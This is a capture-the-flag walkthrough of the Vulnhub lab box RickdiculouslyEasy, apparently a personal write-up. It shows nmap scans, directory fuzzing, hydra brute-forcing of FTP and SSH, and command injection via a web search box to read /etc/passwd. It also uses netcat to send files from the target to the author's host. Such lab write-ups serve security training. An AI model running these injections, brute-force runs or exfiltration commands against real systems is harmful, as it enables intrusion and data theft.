*2021-08-23*

*kimm3*

# Walkthrough: RickdiculouslyEasy
Platform: Vulnhub

Difficulty: Easy

- [Link](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/)

This is a funny themed box, consisting of several flags, with a possible score of 130 points. In the last heading of this document, there's a summary of flag points and where to find them.

## Setup




## Scans and enumeration
```
export IP=192.168.10.2
ping $IP
sudo nmap $IP -p- -Pn -A -oA scans/nmap-init
```


## Intial flags

First flag at port 13337, nmap aggressive scan reveals it too us. If it didn't we could have used netcat to retrieve the text.



**Score: 10 points**

Lets start with the really easy stuff.





The ftp service accepts anonymous logins, use the username anonymous and any password.

**Score: 20 points**

`nc $IP 60000`



**Score: 30 points**



Nothing at index port 80.



**Score: 40 points**

Also a login page, but no password field.





```
curl "http://192.168.10.2/passwords/FLAG.txt" > foundfiles/flagpasswords.txt
curl "http://192.168.10.2/passwords/passwords.html" > foundfiles/passwords.html
```




**Score: 50 points**

## Trying winter
**Bruteforcing with the password 'winter'**

We got a password of winter, no username. Let's start with morty or rick.

```
hydra $IP -L creds/users.txt -P creds/pass.txt ftp | tee scans/hydra-ftp-small.txt
hydra $IP -L creds/users.txt -P creds/pass.txt ssh | tee scans/hydra-ssh-small.txt
hydra $IP -L creds/users.txt -P creds/pass.txt -s 22222 ssh | tee scans/hydra-ssh22222-small.txt
```







SSH port 22 couldn't connect, and the others didn't work. I tried common username wordlists, and generating one with 'cupp.py' for 'morty smith'.

## Back to enumerating
Let's go back to enumerating. Let's do a broader search to see if missed something in the previous scan.

```
# Added slash to find more dirs.
ffuf -u "http://192.168.10.2/FUZZ/ -w sl/Discovery/Web-Content/directory-list-2.3-small.txt -of -o scans/ffuf-index80-with-slash

# Extension search
extensions=$(cat sl/Discovery/Web-Content/web-extensions.txt | tr "\n" ",")

ffuf -u "http://192.168.10.2/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -e $extensions -of -o scans/ffuf-widesearch
```

There's a cgi-bin folder, but everything inside seems to be forbidden(403). A text file called 'robots.txt' is in the index folder.





Too bad.





Typing `; whoami` in the search box. As in running two commands on the same line, works.



## Foothold
Typing `;head -n 100 /etc/passwd` we get the usernames. (`cat` prints out a cat in this box, lol).



We've tried the password winter with users 'RickSanchez' and 'Morty' earlier, but there's another user, 'Summer'.



It works on both ftp and SSH. With both services, we can get to the same flag.





**Score: 60 points**

We have read access in both Ricks and Mortys home folders.





Let's get the files for offline investigation.

```
nc -w 3 192.168.10.1 1234 < RickSanchez/RICKS_SAFE/safe
nc -w 3 192.168.10.1 1234 < Morty/journal.txt.zip
nc -w 3 192.168.10.1 1234 < Morty/Safe_Password.jpg
```



There's a password inside the image, view it with at tool in the terminal, I used `strings`.



A flag and a password.

**Score: 80 points**



Running with password from journal.txt.



**Score: 100 points**

The band name is 'Flesh Curtains'. Let's generate som passwords.



```
mp64 ?u?dflesh -o flesh.txt
mp64 ?u?dcurtains -o curtains.txt
cat flesh.txt curtains.txt fleshcurtains.txt
hydra $IP -f -l RickSanchez -P creds/fleshcurtains.txt -f ftp | tee scans/hydra-rickftp.txt

# With leading cap letters
mp64 ?u?dFlesh -o Flesh.txt
mp64 ?u?dCurtains -o Curtains.txt
cat Flesh.txt Curtains.txt FleshCurtains.txt
hydra $IP -f -l RickSanchez -P creds/FleshCurtains.txt -f ftp | tee scans/hydra-rickftp-capital.txt
```



And from here it's pretty straight forward.



## Summary of flags
| Points | Service/location |
| - | - |
| 10 | Port 13337 |
| 10 | FTP service, anonymous |
| 10 | half baked reverse shell, port 60000 |
| 10 | http,port 9090 |
| 10 | http, passwords folder |
| 10 | Summer home folder |
| 20 | journal.txt.zip |
| 20 | safe |
| 30 | root folder |
